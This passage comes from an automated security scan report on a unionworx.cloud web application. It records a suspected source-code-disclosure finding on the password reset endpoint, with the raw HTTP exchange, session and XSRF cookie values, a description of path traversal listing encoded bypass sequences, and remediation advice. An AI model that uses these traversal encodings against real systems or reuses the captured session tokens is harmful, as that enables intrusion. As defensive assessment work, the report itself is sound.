ibew_test_22_union_worx_session=eyJpdiI6ImQ0cy9Ic3hLd2VmL3RaK2ttemQzdlE9PSIsInZhbHVlIjoiL1UxNENqc2NPMXlDUnoxL0pPY1IzdXN5R1JBNHp3RGJzRnpwNHdUNHpYM3FGWExjQzJ4YjhvajVldWNxN2UwRlpXWk10alRQVnVnNUVTakw1NnFUcjd6UXlVdGRoUGZ0TFg3bUxoM2h6ZDkyNFhiUGprTmFMTyt0TVpyVUJRcUkiLCJtYWMiOiIwZGM5NzAwYTAzMDUwNGRlYTBlMmIxMjk1NjA1NmM1NzYzZTg2NzI0NTIzNjY3Nzc5MTgwYmExODg4ZTVjZWUwIiwidGFnIjoiIn0%3D; \_ga=GA1.2.1965857730.1709530183; \_gid=GA1.2.1685667166.1709530183; \_ga_KD7G4FQ334=GS1.1.1709530457.1.1.1709530836.0.0.0; \_gat_gtag_UA_132022492_1=1<br>Upgrade-Insecure-Requests: 1<br>Sec-Fetch-Dest: document<br>Sec-Fetch-Mode: navigate<br>Sec-Fetch-Site: same-origin<br>Sec-Fetch-User: ?1<br><br><br>Response<br>HTTP/1.1 200<br>Content-Length: 0<br>Connection: close<br><br><br>\--------------------------------                                                                                                                                                                                                                                                                                                                                                                                                                                | Do not accept remote addresses as request parameters, and if you must, ensure that they are validated against an allow-list of expected values.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 6  | Source Code Disclosure - File Inclusion | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | password/email                                                                                                                                                                                                                                                                                                                                                                   | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: password/email<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZhbHVlIjoiNm42TzkwVTRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGEraWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNiTVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1WkRZdUFwU3dyc1IiLCJtYWMiOiJlYmM1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3TnBkdWRjUndsZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ2dLbm5wS2lhSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW52N09hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJtYWMiOiJjZDM2ZTJhZGZiNzA4ZTQ2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                                                     | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:14:16 GMT<br>Location: https://security.unionworx.cloud/password/email<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IjVhdjhzaDZNM2g1eWhGbGY1b2FlcWc9PSIsInZhbHVlIjoiNmlDdWc3UWJxbnAwQS9xUHQrYmIrS0lzdmNBbElmbUc5VDZMVjdMczJBbVNGcWpLUHRsSWFQdmViL2g2aUVzSVVjZ0E2SXdNTVJlZWQzdDZ0ZkcyaDY3b1p5UGpTQjZzeDV0WDNPQnNkWTU0MnhxNStxM0lSK1M2ZWduWkRYM3MiLCJtYWMiOiJkYThlNzdhNDcyM2RjYzZmY2IzNjgxZTkwMDM3N2UwNzA1OTlhNmYyNTljZWRiYzY3YWRiMzhhYjRhYjg0M2M4IiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjQ1SWRySjc0OVhiQ2d4azN5cTREeHc9PSIsInZhbHVlIjoieGM0eVBXUVBBY1lTOXYrc2JMS2VhVmNpdlZFbHVSVnRuU09CU1JlK1JObFFqUUFydVNMS2ZyMXJ4RU1QZlAxcUVTcm8yQnhGUmQrNTEvc0hSTWdTNGsyelpLQW1rcEFzUnJJU0JvWFlFLzRMUUJjTlV3Y1RVNjR3Y0lpY0RoNWYiLCJtYWMiOiIzYzMyYjQ0MGVjOGQ1M2FkMjZhOTRjNTFjZjE1MjkxYjNlODg1MmVhMTQxODVhNzBhMGJiMWQzNmViOTI1MmFmIiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 434<br>                 | The Path Traversal attack technique allows an attacker access to files, directories, and commands that potentially reside outside the web document root directory. An attacker may manipulate a URL in such a way that the web site will execute or reveal the contents of arbitrary files anywhere on the web server. Any device that exposes an HTTP-based interface is potentially vulnerable to Path Traversal.<br><br>Most web sites restrict user access to a specific portion of the file-system, typically called the "web document root" or "CGI root" directory. These directories contain the files intended for user access and the executable necessary to drive web application functionality. To access files or execute commands anywhere on the file-system, Path Traversal attacks will utilize the ability of special-characters sequences.<br><br>The most basic Path Traversal attack uses the "../" special-character sequence to alter the resource location requested in the URL. Although most popular web servers will prevent this technique from escaping the web document root, alternate encodings of the "../" sequence may help bypass the security filters. These method variations include valid and invalid Unicode-encoding ("..%u2216" or "..%c0%af") of the forward slash character, backslash characters ("..\\") on Windows-based servers, URL encoded characters "%2e%2e%2f"), and double URL encoding ("..%255c") of the backslash character.<br><br>Even if the web server properly restricts Path Traversal attempts in the URL path, a web application itself may still be vulnerable due to improper handling of user-supplied input. This is a common problem of web applications that use template mechanisms or load static text from files. In variations of the attack, the original URL parameter value is substituted with the file name of one of the web application's dynamic scripts. Consequently, the results can reveal source code because the file is interpreted as text instead of an executable script. These techniques often employ additional special characters such as the dot (".") to reveal the listing of the current working directory, or "%00" NULL characters in order to bypass rudimentary file extension checks.        The output for the source code filename [/general] differs sufficiently from that of the random parameter [ygxprtzefhfiixvfnwsxezcaiqfvsxrmrtkhqz], at [14%], compared to a threshold of [75%] | Assume all input is malicious. Use an "accept known good" input validation strategy, i.e., use an allow list of acceptable inputs that strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something that does. Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list). However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.<br><br>When performing input validation, consider all potentially relevant properties, including length, type of input, the full range of acceptable values, missing or extra inputs, syntax, consistency across related fields, and conformance to business rules. As an example of business rule logic, "boat" may be syntactically valid because it only contains alphanumeric characters, but it is not valid if you are expecting colors such as "red" or "blue."<br> |
